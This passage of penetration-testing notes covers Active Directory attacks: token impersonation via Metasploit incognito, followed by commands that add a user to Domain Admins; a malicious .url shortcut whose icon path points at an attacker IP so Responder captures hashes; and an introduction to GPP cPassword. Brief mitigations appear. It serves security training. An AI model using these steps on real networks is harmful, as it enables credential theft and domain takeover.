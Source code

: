 Two Types:

- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

### Token Impersonation Walkthrough

Start msfconsole and load psexec with an x64 meterpreter payload then run the exploit

Use `load` to load incognito in the meterpreter shell and check available commands with `help`

`load incognito`

Use `list_tokens` to show available tokens, with -g for groups and -u for users
Use `impersonate_token domain\\user` to impersonate a user and `rev2self` to drop the impersonation

If we find a domain admin token available for impersonation we can use that to add a user to the Domain Admin
group

`net user /add username password /domain` 
`net group "Domain Admins" username /ADD /DOMAIN`

### Token Impersonation Mitigation

Mitigation Strategies:

- Limit user/group token creation permission
- Account tiering
- Local admin restriction

### URL File Attacks

Create a malicious Shortcut file, replacing `10.10.10.10` with the attacker IP. Save the file as 
"@filename.url" or "~filename.url" and place it in a network share.

Run responder with HTTP and SMB turned on in Responder.conf, then wait until someone navigates to the share 
and the hashes should be dumped to responder

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### GPP/cPassword Attacks and Mitigations

Overview:

- Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials
- These credentials wee encrypted and placed in a "cPassword"
- The key was accidentally released
- Patched in MS14-025, but it doesn't prevent previous uses
- Still relevant on Pentests despite age (nearly 10 years old!)
